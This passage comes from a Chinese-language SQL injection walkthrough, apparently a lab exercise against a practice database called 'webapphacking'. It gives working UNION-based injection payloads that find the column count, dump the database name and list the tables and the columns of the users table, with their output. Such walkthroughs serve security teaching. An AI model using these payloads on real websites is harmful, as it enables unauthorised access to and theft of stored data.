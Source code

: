 ```
Linux OS' order by 3#
```

数据可以正常显示

![image-20220318110313398](https://gitee.com/xxb667/img/raw/master/img/image-20220318110313398.png)



```
Linux OS' order by 4#
```

数据无法正常显示，说明字段数为3

![image-20220318110503366](https://gitee.com/xxb667/img/raw/master/img/image-20220318110503366.png)

## 2.3 爆库

查看当前数据库

```
-1' union select database(),2,3#
```

得到当前数据库的名称为

```
webapphacking
```

![image-20220318110921205](https://gitee.com/xxb667/img/raw/master/img/image-20220318110921205.png)

## 2.4 爆表

查看webapphacking库所有的表

```
-1' union select group_concat(table_name),2,3 from information_schema.tables where table_schema='webapphacking'#
```

得到两个数据表

```
books
users
```

![image-20220318111101849](https://gitee.com/xxb667/img/raw/master/img/image-20220318111101849.png)

查看users表中所有的列

```
-1' union select group_concat(column_name),2,3 from information_schema.columns where table_name='users'#
```
